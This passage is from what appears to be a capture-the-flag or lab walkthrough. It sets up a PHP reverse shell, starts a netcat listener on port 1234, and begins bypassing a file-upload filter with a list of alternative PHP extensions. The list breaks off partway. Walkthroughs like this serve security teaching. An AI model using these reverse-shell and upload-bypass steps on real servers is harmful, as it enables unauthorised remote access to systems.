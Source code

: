<figure><img src=".gitbook/assets/Schermata del 2023-06-02 12-44-27.png" alt=""><figcaption><p>Modify php code with our IP target and port (value at our choice).</p></figcaption></figure>

Next, return to a terminal and start a netcat listener using the **nc** command:

```bash
nc -lvnp <port>
```

Make sure that the port number you specify for the listener is the same as the one in the PHP reverse shell:

```bash
❯ nc -nlvp 1234
listening on [any] 1234 ...
```

Running a NetCat listener.

Now that the listener is active, let’s try uploading a shell. I saved it as ‘reverse\_shell.php’ and tried uploading it as is, but this was denied:

<figure><img src=".gitbook/assets/Schermata del 2023-06-02 17-07-37.png" alt=""><figcaption></figcaption></figure>



Looks like PHP is ‘not permitted’. We’ll have to bypass the restrictions that have been set.&#x20;

The first primary strategy for identifying a file upload vulnerability is by manipulating the file extension. There is a good list at hacktricks ([https://book.hacktricks.xyz/pentesting-web/file-upload](https://book.hacktricks.xyz/pentesting-web/file-upload)).\
\
I used the following list:\
\
_php_\
_php2_\
_php3_\
_php4_\
_php5_\
_php6_\
_php7_\
phps\
_phps_\
_pht_\